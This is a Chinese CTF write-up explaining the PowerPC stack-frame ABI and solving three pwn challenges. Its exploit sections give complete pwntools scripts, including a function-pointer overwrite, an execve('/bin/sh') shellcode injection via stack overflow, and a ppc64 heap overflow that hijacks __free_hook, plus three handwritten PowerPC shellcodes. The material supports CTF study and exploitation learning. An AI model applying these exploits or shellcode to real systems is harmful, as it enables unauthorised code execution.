

# 前言

前段时间打了2023网络安全人才挑战赛，遇到了一道PowerPC32架构的pwn题，是之前没有接触过的，赛后复现学习一下powerpc的栈格式和相关利用方法，总结一下ppc的汇编指令。

## powerpc汇编

[ppc-asm](./powerpc-asm.md)

## 函数调用规则ABI（函数调用与返回）

栈的概念在PPC等CPU中，不是由CPU实现的，而是由编译器维护的。通常情况下，在PPC中栈顶指针寄存器使用r1，栈底指针寄存器使用r11或r31。或者r11为栈顶，其他为栈底。根据不同的编译选项和编译器环境，其使用方式都有不同，但各个编译器的共识为r1是帧栈指针，其他寄存器都可根据他为准灵活使用。

栈帧在函数中，通常用于存储局部变量、编译器产生的临时变量等。由于PPC和ARM等CPU在寄存器较多，所以函数的形参和实参大多数情况下会使用寄存器，参数较多的情况下使用栈。

PowerPC没有专用的push、pop指令执行堆栈操作，而是使用stwu，lwzu来代替push、pop指令。PowerPC处理器用GPR1来构成一个单向链表，单链表的每个节点都代表一个栈帧，每个函数栈帧独立并独立维护自己的栈帧。

PowerPC体系结构中栈的增长方向同样是从高地址到低地址，堆的增长方式是从低地址到搞地址，当两者相遇时就会产生溢出。

堆栈帧的格式如下：



**Function Parameters Area**: 函数参数区域，这个区域的大小是可选的，即如果调用函数传递给被调用函数的参数少于8个时，用GPR3(r3)至GPR10(r10)这个8个寄存器就可以了，被调用函数的栈帧中就不需要这个区域;但如果传递的参数多于8个时就需要这个区域。

**Local Variables Area**: 局部变量域，同上所示，如果临时寄存器的数量不足以提供给被调用函数的临时变量使用时，就会使用这个域。

## 函数调用规则ABI

通过例子理解调用规则ABI：
```c
// powerpc-linux-gnu-gcc-10 -static -g -o t t.c
#include <stdio.h>
#include <stdlib.h>
unsigned int test(unsigned int n)
{
    int ok,n1,n2,n3,n4,n5,n6,n7,n8,n9;
    ok=n1=n2=n3=n4=n5=n6=n7=n8=n9=n;
    printf("%d,%d,%d,%d,%d,%d,%d,%d,%d,%d,%d",ok,n,n1,n2,n3,n4,n5,n6,n7,n8,n9);
    return n;
}
void main(void)
{
    unsigned int n = 2;
    n=test(n);
}
```

```
Dump of assembler code for function main:
   0x100006f0 <+0>:     stwu    r1,-48(r1)
   0x100006f4 <+4>:     mflr    r0
   0x100006f8 <+8>:     stw     r0,52(r1)
   0x100006fc <+12>:    stw     r31,44(r1)
   0x10000700 <+16>:    mr      r31,r1
=> 0x10000704 <+20>:    li      r9,2
   0x10000708 <+24>:    stw     r9,28(r31)
   0x1000070c <+28>:    lwz     r3,28(r31)
   0x10000710 <+32>:    bl      0x1000061c <test>
   0x10000714 <+36>:    stw     r3,28(r31)
   0x10000718 <+40>:    nop
   0x1000071c <+44>:    addi    r11,r31,48
   0x10000720 <+48>:    lwz     r0,4(r11)
   0x10000724 <+52>:    mtlr    r0
   0x10000728 <+56>:    lwz     r31,-4(r11)
   0x1000072c <+60>:    mr      r1,r11
   0x10000730 <+64>:    blr
End of assembler dump.
```

```
Dump of assembler code for function test:
   0x1000061c <+0>:     stwu    r1,-96(r1)
   0x10000620 <+4>:     mflr    r0
   0x10000624 <+8>:     stw     r0,100(r1)
   0x10000628 <+12>:    stw     r31,92(r1)
   0x1000062c <+16>:    mr      r31,r1
   0x10000630 <+20>:    stw     r3,28(r31)
   0x10000634 <+24>:    lwz     r9,28(r31)
   0x10000638 <+28>:    stw     r9,40(r31)
   0x1000063c <+32>:    lwz     r9,40(r31)
   0x10000640 <+36>:    stw     r9,44(r31)
   0x10000644 <+40>:    lwz     r9,44(r31)
   0x10000648 <+44>:    stw     r9,48(r31)
   0x1000064c <+48>:    lwz     r9,48(r31)
   0x10000650 <+52>:    stw     r9,52(r31)
   0x10000654 <+56>:    lwz     r9,52(r31)
   0x10000658 <+60>:    stw     r9,56(r31)
   0x1000065c <+64>:    lwz     r9,56(r31)
   0x10000660 <+68>:    stw     r9,60(r31)
   0x10000664 <+72>:    lwz     r9,60(r31)
   0x10000668 <+76>:    stw     r9,64(r31)
   0x1000066c <+80>:    lwz     r9,64(r31)
   0x10000670 <+84>:    stw     r9,68(r31)
   0x10000674 <+88>:    lwz     r9,68(r31)
   0x10000678 <+92>:    stw     r9,72(r31)
   0x1000067c <+96>:    lwz     r9,72(r31)
   0x10000680 <+100>:   stw     r9,76(r31)
   0x10000684 <+104>:   lwz     r9,40(r31)
   0x10000688 <+108>:   stw     r9,20(r1)
   0x1000068c <+112>:   lwz     r9,44(r31)
   0x10000690 <+116>:   stw     r9,16(r1)
   0x10000694 <+120>:   lwz     r9,48(r31)
   0x10000698 <+124>:   stw     r9,12(r1)
   0x1000069c <+128>:   lwz     r9,52(r31)
   0x100006a0 <+132>:   stw     r9,8(r1)
   0x100006a4 <+136>:   lwz     r10,56(r31)
   0x100006a8 <+140>:   lwz     r9,60(r31)
   0x100006ac <+144>:   lwz     r8,64(r31)
   0x100006b0 <+148>:   lwz     r7,68(r31)
   0x100006b4 <+152>:   lwz     r6,72(r31)
   0x100006b8 <+156>:   lwz     r5,28(r31)
   0x100006bc <+160>:   lwz     r4,76(r31)
   0x100006c0 <+164>:   lis     r3,4103
   0x100006c4 <+168>:   addi    r3,r3,-29748
   0x100006c8 <+172>:   crclr   4*cr1+eq
   0x100006cc <+176>:   bl      0x10007c80 <printf>
   0x100006d0 <+180>:   lwz     r9,28(r31)
   0x100006d4 <+184>:   mr      r3,r9
   0x100006d8 <+188>:   addi    r11,r31,96
   0x100006dc <+192>:   lwz     r0,4(r11)
   0x100006e0 <+196>:   mtlr    r0
   0x100006e4 <+200>:   lwz     r31,-4(r11)
   0x100006e8 <+204>:   mr      r1,r11
   0x100006ec <+208>:   blr
End of assembler dump.
```

1. 调用之前首先参数从右往左依次赋值给r10-r3
2. 前8个参数赋值给r3-r10寄存器，多余的参数放入函数栈帧
3. PC转向被调函数,开辟新栈帧，保存r1中上一个栈帧的栈顶到新栈帧栈顶，由此构成单链表，以供函数返回时恢复栈帧
4. 将函数的返回地址保存到上一个栈的LR Save Word域上
5. 将r31中的上一个栈帧的栈顶保存到栈上，用于函数返回恢复
6. 调整栈帧，将r1的值赋值给r31，均指向新栈帧的栈顶
7. 获取函数参数后，执行函数逻辑

## 函数的创建及返回

新函数的开头会首先会创建新栈帧并保存上一个栈帧的栈顶指针到新的栈帧，保存函数的返回地址到上一个栈帧，备份上一个栈帧的栈顶；执行完函数逻辑后，会首先处理函数返回值到r3，恢复LR寄存器为函数返回地址，恢复上一个函数栈帧的栈顶指针（r1，r31），返回。

1. PC转向被调函数,开辟新栈帧，保存r1中上一个栈帧的栈顶到新栈帧栈顶，由此构成单链表，以供函数返回时恢复栈帧
2. 将函数的返回地址保存到上一个栈的LR Save Word域上
3. 将r31中的上一个栈帧的栈顶保存到栈上，用于函数返回恢复
4. 调整栈帧，将r1的值赋值给r31，均指向新栈帧的栈顶
5. 获取函数参数后，执行函数逻辑
6. 返回前首先处理函数的返回结果到r3寄存器
7. 恢复LR寄存器为函数返回地址
8. 恢复r1、r31寄存器位上一个函数栈帧的栈顶指针

到这里也可以看出在ppc中是通过栈顶指针完成栈帧的开辟和弹出的，栈顶指针以链表形式链接，同时对局部变量的操作也是以栈顶为基址进行偏移索引的。

# 例题

## pwn起源-2023网络安全人才挑战赛

题目为powerpc32 MSB，开启了NX
```bash
    Arch:     powerpc-32-big
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000000)
```

题目存在栈溢出，并且有backdoor函数，将返回地址覆盖成backdoor即可。

```c
undefined4 main(EVP_PKEY_CTX *param_1)

{
  int in_r2;
  void *__dest;
  size_t __n;
  undefined auStack148 [128];
  int s14;
  
  s14 = *(int *)(in_r2 + -0x7008);
  init(param_1);
  puts("Welcome to https://www.arm-basics.com");
  __dest = malloc(0x80);
  *(code **)((int)__dest + 0x28) = func;
  puts("This is not my opinion, but please leave a comment.");
  __n = read(0,auStack148,0x120);
  memcpy(__dest,auStack148,__n);
  puts("Finished uploading");
  (**(code **)((int)__dest + 0x28))();
  if (s14 != *(int *)(in_r2 + -0x7008)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
malloc内存后在0x28偏移处是func，后面调用了`(**(code **)((int)__dest + 0x28))()`，并且memcpy存在溢出可将dest偏移0x28处覆盖成backdoor。

```c
void backdoor(int param_1)

{
  int in_r2;
  size_t sVar1;
  undefined4 s24;
  undefined s20;
  undefined4 uStack31;
  undefined4 s1b;
  undefined2 s17;
  undefined s15;
  int s14;
  
  s14 = *(int *)(in_r2 + -0x7008);
  s24 = 0x2f62696e;
  s20 = 0;
  uStack31 = 0;
  s1b = 0;
  s17 = 0;
  s15 = 0;
  if (param_1 == 0x666c6167) {
    sVar1 = strlen((char *)&s24);
    *(undefined4 *)((int)&s24 + sVar1) = 0x63617420;
    *(undefined4 *)(&s20 + sVar1) = 0x66616c67;
    *(char *)((int)&uStack31 + sVar1 + 3) = '\0';
  }
  else {
    s24 = 0x2f646174;
    s20 = 0x65;
    uStack31 = 0;
  }
  system((char *)&s24);
  if (s14 != *(int *)(in_r2 + -0x7008)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
## 调试

```bash
./qemu-ppc-static -g 1234 ./main

gdb main
set architecture powerpc:403 
b main
target remote :4444
```
## exp

```python
from pwn import *
context.endian = 'big'
local = 1
if local:
    sh = process(['qemu-ppc-static', '-g', '4444', './main'])
else:
    sh = process(['qemu-ppc-static', './main'])

payload = b'/bin/sh;caaadaaaeaaafaaagaaahaaaiaaajaaa' + p32(0x10000694)
#pause()
sh.sendlineafter(b'comment.\n', payload)
sh.interactive()
```

## PPPPPPC-hws2021线上赛

题目信息：

```bash
    Arch:     powerpc-32-big
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
```
ghidra打开查看伪代码：
```c
  uint auStack312 [77];

  uVar2 = FUN_100003fc();
  uVar1 = extraout_r4;
  FUN_100095b0((uint)"Hello, welcome to hws!",extraout_r4);
  FUN_100082d0(uVar2,param_2,param_3,param_4,param_5,param_6,param_7,param_8,"Tell me your name: " ,
               uVar1,param_11,param_12,param_13,param_14,&DAT_10070000,param_16);
  FUN_10008f40(auStack312,0x320,(uint *)PTR_DAT_100a0e00); <--- stack overflow FUN_1001b9b0((uint)&DAT_100b3390,auStack312);
  FUN_100095b0((uint)&DAT_10068400,extraout_r4_00);
```

FUN_10008f40函数应该为fread函数，存在栈溢出，由于程序没有开NX，可执行shellcode。

shellcode只要满足execve("/bin/sh", 0, 0) ，PPC相关寄存器应为如下：

```bash
r0: 11 (syscall number)
r3 -> "/bin/sh" (first arg)
r4: 0
r5: 0
```
[ppc系统调用号](https://elixir.bootlin.com/linux/latest/source/arch/powerpc/kernel/syscalls/syscall.tbl)

```bash
────────────────────────────────────[ DISASM ]────────────────────────────────────
 ► 0x100004f0    blr    

────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ r11 sp 0xf6ffed20 ◂— 0x0
01:0004│        0xf6ffed24 —▸ 0xf6ffebc8 —▸ 0x10000e80 ◂— stwu   r1, -0x20(r1)
02:0008│        0xf6ffed28 ◂— 0xa000000 /* '\n' */
03:000c│        0xf6ffed2c ◂— 0x0
04:0010│        0xf6ffed30 ◂— 0x5afb962e
05:0014│        0xf6ffed34 ◂— 0x0
06:0018│        0xf6ffed38 ◂— 0xbc047c46
07:001c│        0xf6ffed3c ◂— 0x0
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► f 0 0x100004f0
   f 1 0xf6ffebc8
──────────────────────────────────────────────────────────────────────────────────
pwndbg> p/x $lr
$1 = 0xf6ffebc8
```

```bash
────────────────────────────────────[ DISASM ]────────────────────────────────────
   0xf6ffebe8    xor    r3, r3, r3
 ► 0xf6ffebec    xor    r4, r4, r4
   0xf6ffebf0    xor    r5, r5, r5
   0xf6ffebf4    li     r0, 0xb
   0xf6ffebf8    mflr   r3
   0xf6ffebfc    addi   r3, r3, 0x1c
   0xf6ffec00    sc     
────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ r11 sp 0xf6ffed20 ◂— 0x0
01:0004│        0xf6ffed24 —▸ 0xf6ffebe8 ◂— 0x7c631a78
02:0008│        0xf6ffed28 ◂— 0xa000000 /* '\n' */
03:000c│        0xf6ffed2c ◂— 0x0
04:0010│        0xf6ffed30 ◂— '<(\rx'
05:0014│        0xf6ffed34 ◂— 0x0
06:0018│        0xf6ffed38 ◂— 0xdad7e710
07:001c│        0xf6ffed3c ◂— 0x0
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► f 0 0xf6ffebec
   f 1 0xf6ffebe8
──────────────────────────────────────────────────────────────────────────────────
pwndbg> tel 0xf6ffebe8
00:0000│    0xf6ffebe8 ◂— 0x7c631a78
01:0004│ pc 0xf6ffebec ◂— 0x7c842278
02:0008│    0xf6ffebf0 ◂— 0x7ca52a78
03:000c│    0xf6ffebf4 ◂— 0x3800000b /* '8' */
04:0010│    0xf6ffebf8 ◂— 0x7c6802a6
05:0014│    0xf6ffebfc ◂— 0x3863001c /* '8c' */
06:0018│    0xf6ffec00 ◂— 0x44000002 /* 'D' */
07:001c│    0xf6ffec04 ◂— '/bin/sh'
pwndbg> 
```

## exp

```python
from pwn import *
import sys

context.log_level = 'debug'
context.endian = 'big'
context.arch='powerpc'
Debug = sys.argv[1]

elf = ELF('./PPPPPPC')

def get_sh(other_libc=null):
    if Debug == '1':
        return process(["./qemu-ppc-static","-g","1234","-L","./","./PPPPPPC"])
        log.info('Please use GDB remote!(Enter to continue)')
        pause()
        return r
    else:
        return process(["./qemu-ppc-static","-L","./","./PPPPPPC"])

r = get_sh()
r.recvuntil("Tell me your name: ")

sc = asm('''
xor 3, 3, 3
xor 4, 4, 4
xor 5, 5, 5
li 0, 11
mflr r3
addi r3, r3, 7*4
sc
.long 0x2f62696e
.long 0x2f736800
''')
r.sendline(sc.ljust(0x13c, b'\x00')+p32(0xf6ffebe8))
# 0xf6ffebe8

r.interactive()
```

## babyPPC-2022 hufu-final

题目信息,ppc64,保护全开
```bash
    Arch:     powerpc64-64-big
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程序my_read存在offbyone溢出：
```c

uint my_read(longlong param_1,uint param_2)

{
  char s15;
  uint s14;
  
  s14 = 0;
  while ((s14 <= param_2 && (0000001b.plt_call.read@@GLIBC_2.3(0,&s15,1), s15 != '\n'))) {
    *(char *)(param_1 + ((int)s14)) = s15;
    s14 = s14 + 1;
  }
  return s14;
}


```
在函数中的条件判断`while ((s14 <= param_2 && (0000001b.plt_call.read@@GLIBC_2.3(0,&s15,1), s15 != '\n')))`存在问题。

当已经读取的字符数s14等于参数param_2时，根据该条件判断循环应该停止，但实际上还会继续读取一个字符并判断是否为换行符。这意味着如果输入的数据长度正好等于参数param_2，那么循环将在读取到最后一个字符时停止，但是仍然会将该字符存储在缓冲区中，从而导致缓冲区溢出。

add函数中只允许申请小于0x91的chunk，可以判断基本上是使用tcache来利用。但是考虑到ppc是大端序，只溢出一字节覆盖不到size，再看edit函数中有没有漏洞：

```c
  else {
    0000001b.plt_call.printf@@GLIBC_2.4("New book description: ");
    my_read(*(longlong *)(bookList + ((longlong)iVar1 * 0x40) + 0x30),
            *(uint *)(bookList + ((longlong)iVar1 * 0x40) + 0x38));
    newbooksize = 0000001b.plt_call.strlen@@GLIBC_2.3
                      (*(undefined8 *)(bookList + ((longlong)iVar1 * 0x40) + 0x30));
    *(undefined4 *)(bookList + ((longlong)iVar1 * 0x40) + 0x38) = newbooksize;
  }
```

edit再修改完chunk后重新使用strlen()更新了booksize，导致多次修改会造成堆溢出。

另外经过调试附件中的libc，发现libc中将system改成了0xdeadbeef，所以system想getshell就不可能了，考虑到远程应该是qemu模拟的程序，是可以执行shellcode的，我们将freehook改成shellcode的地址即可。

**注：**：

qemu用户调试vmmap不能看，libc也没有符号表，可以编译一个ppc64的qemu文件系统进行远程调试，但是像x86-64下的heap相关命令也是用不了的，不过可以查看vmmap和libc符号表。

## shellcode编写

尝试自己编写shellcode。这里和32位的ppc是类似的，具体实现时针对r3寄存器的设置我用了三种思路

要执行`execve("/bin/sh", NULL, NULL)`，r3要指向对应字符串，可以将/bin/sh写到堆上然后让r3指过去。在调试的时候发现寄存器r9就是一个堆上的地址，所以第一种思路就是直接通过异或把值迁移到r3上再进行相应偏移的调整即可

shellcode做的就是首先清空r3、r4、r5寄存器，将r0赋值为11对应execve，然后通过异或和加法让r3指向/bin/sh，最后sc即执行系统调用
```python
sc1='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
xor 3,3,9
addi 3,3,36
sc
'''
```
第二种思路是把地址拼出来，需要用到移位操作
addis是将计算结果左移2字节后再进行存储，sld是左移双字的意思。同时由于限制操作数的大小所以低两个字节需要两次加法得到
```python
sc2='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
addis 3, 4, 8
addi 4, 4, 19
sld 3, 3, 4
li 4, 0
addis 4, 4, {}
addi 3, 3, {}
addi 3, 3, {}+24
add 3, 3, 4
li 4, 0
sc
'''.format((binsh&0xff0000)>>16, (binsh&0xffff)/2, (binsh&0xffff)/2)
```

第三种思路是最通用的，本题由于我们无法控制lr寄存器，所以无法像上一道题目通过lr索引到/bin/sh。然而我们可以换一种思路，即通过shellcode在某个可写地址写入/bin/sh然后指向即可。在所有寄存器中，我们知道r1永远是指向栈空间的，而栈空间必然是可写的，所以不妨借由r1在栈上写入/bin/sh，从而确保r3参数的布置。shellcode如下

```python
sc3='''
li 4, 0
li 5, 0
li 0, 11
li 6, 0
addis 6, 6, 0x2f62
addi 6, 6, 0x696e
stw 6, 0(1)
li 6, 0
addis 6, 6, 0x2f73
addi 6, 6, 0x6800
stw 6, 4(1)
mr 3, 1
sc
'''
```

最终exp如下，本题思路简单来说就是首先通过不断编辑造成足够多字节的堆溢出，然后修改chunk头的size位造成堆块重叠，从而得到unsorted bin并泄露基址；之后再攻击tcache的fd劫持__free_hook，跳转到布置在堆空间上的shellcode从而getshell。

有一点不一样的是在调试时发现ppc中__free_hook和x86、x64中的略有不同，ppc这里放置的是一个二级指针，指向调用函数的指针。所以这里我们让__free_hook指向一个堆指针chunk_ptr，然后chunk_ptr处填写chunk_ptr+8，并在之后写入shellcode内容即可。

## exp

```python
from pwn import *
import sys

context.log_level = 'debug'
context.endian = 'big'
context.arch='powerpc64'
Debug = sys.argv[1]

elf = ELF('./pwn')
libc = ELF('/usr/powerpc64-linux-gnu/lib/libc-2.31.so')

def get_sh(other_libc=null):
    if Debug == '1':
        return process(["./qemu-ppc64-static","-g","1234","-L","/usr/powerpc64-linux-gnu","./pwn"])
        log.info('Please use GDB remote!(Enter to continue)')
        pause()
        return r
    else:
        return process(["./qemu-ppc64-static","-L","/usr/powerpc64-linux-gnu","./pwn"])

def add(name, sz, ct):
    r.sendlineafter('cmd> ', str(1))
    r.sendlineafter('Book name: ', name)
    r.sendlineafter('Book description size: ', str(sz))
    r.sendafter('Book description: ', ct)

def edit(name, ct):
    r.sendlineafter('cmd> ', str(2))
    r.sendlineafter('Book name: ', name)
    r.sendafter('New book description: ', ct)

def show(name):
    r.sendlineafter('cmd> ', str(3))
    r.sendlineafter('Book name: ', name)

def dele(name):
    r.sendlineafter('cmd> ', str(4))
    r.sendlineafter('Book name: ', name)

r = get_sh()

heap = 0
sc=''

add('1', 0x18, 'G'*0x17+'\n')
add('2', 0x18, 'G'*0x17+'\n')
dele('2')
for i in range(7):
    add('2', 0x10*(i+2)+8, 'G'*(0x10*(i+2)+7)+'\n')
    add('3', 0x10*(i+2)+8, 'G'*(0x10*(i+2)+7)+'\n')
    dele('2')
    dele('3')

for i in range(8):
    edit('1', 'Z'*(0x19+i)+'\n')
edit('1', 'Z'*0x18+'\x00'*6+'\x04\x41'+'\n')
add('4', 0x18, '1\n')
dele('4')
for i in range(13):
    edit('1', 'Z'*(0x19+i)+'\n')
show('1')
r.recvuntil('Book description: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ')
libc.address = u64('\x00\x00\x00\x40\x00'+r.recv(3))+0x848-libc.sym['__malloc_hook']
for i in range(0x50):
    edit('1', 'Z'*(0x19+13+i)+'\n')
show('1')
r.recvuntil('Book description: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ')
heap = u64('\x00\x00\x00\x40\x00'+r.recv(3))

binsh = heap+0x4d8

sc1='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
xor 3,3,9
addi 3,3,36
sc
'''

sc2='''
li 3, 0
li 4, 0
li 5, 0
li 0, 11
addis 3, 4, 8
addi 4, 4, 19
sld 3, 3, 4
li 4, 0
addis 4, 4, {}
addi 3, 3, {}
addi 3, 3, {}+24
add 3, 3, 4
li 4, 0
sc
'''.format((binsh&0xff0000)>>16, (binsh&0xffff)/2, (binsh&0xffff)/2)

sc3='''
li 4, 0
li 5, 0
li 0, 11
li 6, 0
addis 6, 6, 0x2f62
addi 6, 6, 0x696e
stw 6, 0(1)
li 6, 0
addis 6, 6, 0x2f73
addi 6, 6, 0x6800
stw 6, 4(1)
mr 3, 1
sc
'''

edit('1', '\x00'*0x18+p64(0x21)+\
    p64(0)*3+p64(0x31)+\
    p64(0)*5+p64(0x31)+p64(libc.sym['__free_hook'])+'\n')

add('A', 0x88, p64(heap+0x4b0+8)+asm(sc2)+'/bin/sh\x00'+'\n')
dele('1')
add('AA', 0x28, '\n')
add('B', 0x28, p64(heap+0x4b0)+'\n')
dele('A')

# 0x4000020020 booklist

success(hex(len(sc)))
success(hex(libc.address))
success(hex(heap))
r.interactive()
```